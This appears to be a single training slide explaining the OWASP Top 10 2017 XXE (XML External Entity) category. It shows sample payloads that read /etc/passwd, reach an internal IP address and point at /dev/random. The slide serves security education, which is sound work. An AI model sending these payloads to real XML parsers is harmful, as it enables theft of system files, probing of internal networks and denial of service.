

# OWASP Top 10 2017 A4: XML External Entities (XXE)
XXE:
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
   <foo>&xxe;</foo>
…
<!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
…
<!ENTITY xxe SYSTEM "file:///dev/random" >]>

10